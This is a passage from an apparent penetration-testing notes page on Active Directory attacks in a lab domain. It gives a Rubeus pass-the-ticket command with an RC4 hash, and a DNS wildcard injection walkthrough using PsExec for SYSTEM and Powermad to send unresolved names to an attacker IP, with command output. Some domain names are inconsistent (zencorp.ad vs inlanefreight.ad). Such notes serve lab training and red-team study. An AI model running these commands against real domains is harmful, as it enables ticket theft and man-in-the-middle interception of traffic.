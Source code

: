 Finally request a ticket

```powershell
.\Rubeus.exe asktgt /user:svc_devadm$ /rc4:32ac66cd327aa76b3f1ca6eb82a801c5 /domain:zencorp.ad /ptt
```

### <mark style="color:yellow;">DNS Trust Attack</mark>

DNS Trust attacks abuses privileges granted to Enterprise Domain Controllers. That is the creation, deletion and modification of DNS records which can lead to MiTM attacks. They are stored in:

1. DomainDnsZones partition `(CN=MicrosoftDNS,DC=DomainDnsZones,DC=root,DC=local)`
2. ForestDnsZones partition `(CN=MicrosoftDNS,DC=ForestDnsZones,DC=root,DC=local)`
3. Domain partition `(CN=MicrosoftDNS,CN=System,DC=root,DC=local)`

{% hint style="info" %}
It is possible to change DNS records on the parent domain with `SYSTEM` rights on a child domain controller (DC) and change DNS records.
{% endhint %}

#### DNS Wildcard injection

A wildcard acts like a fallback when a request domain does not have match in the DNS zone. If no record exists the wildcard provides a response. With SYSTEM privileges on a child DC we can inject a a wildcard record in the parent domain DNS like `*.zencorp.ad → Attacker_IP`. So non-existent subdomains would lead to attacker IP.

```powershell
PS C:\Tools> Resolve-DNSName TEST1.zencorp.ad
Resolve-DNSName : TEST1.zencorp.ad : DNS name does not exist
```

Create Wildcard

```powershell
# Spawn PS as SYSTEM
.\PsExec -s -i powershell

# Create DNS wildcard
Import-module .\Powermad.ps1
New-ADIDNSNode -Node * -domainController DC01.zencorp.ad -Domain inlanefreight.ad -Zone inlanefreight.ad -Tombstone -Verbose
VERBOSE: [+] Forest = ZENCORP.AD
VERBOSE: [+] Distinguished Name = DC=*,DC=zencorp.ad,CN=MicrosoftDNS,DC=DomainDNSZones,DC=zencorpp,DC=ad
VERBOSE: [+] Data = 172.16.210.3
VERBOSE: [+] DNSRecord = 04-00-01-00-05-F0-00-00-5D-00-00-00-00-00-02-58-00-00-00-00-1E-9B-38-00-AC-10-D2-03
[+] ADIDNS node * added  

# Test
Resolve-DNSName ANYTHING.zencorp.ad
Name                                           Type   TTL   Section    IPAddress
----                                           ----   ---   -------    ---------
ANYTHING.zencorp.ad                      A      599   Answer     172.16.210.3         
```
